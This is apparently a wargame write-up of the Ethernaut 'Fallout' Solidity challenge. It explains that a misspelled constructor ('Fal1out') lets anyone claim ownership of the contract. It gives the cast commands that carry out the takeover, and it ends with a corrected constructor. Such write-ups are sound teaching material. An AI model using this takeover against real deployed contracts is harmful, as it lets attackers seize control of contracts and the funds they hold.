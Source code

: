 # Fallout

Claim ownership of the contract.

## Vulnerability

In Solidity, the constructor function is a special function that is executed only once when the contract is deployed. It is typically used to initialize state variables. The name of the constructor function should be the same as the name of the contract. In your case, the contract name is `Fallout` but the constructor function is named `Fal1out`.

This mismatch means that `Fal1out` is not a constructor function but a regular public function that can be called by anyone. This allows anyone to take ownership of the contract by calling the `Fal1out` function.

## Attack

```bash
1. await contract.address
2. # await contract.owner()
   cast call $CONTRACT_ADDRESS "owner()" --rpc-url $ALCHEMY_RPC_URL --legacy
3. cast send $CONTRACT_ADDRESS "Fal1out()" --value 0.000000000000000001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
```

## Fix

```javascript
* constructor */
constructor() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
}
```

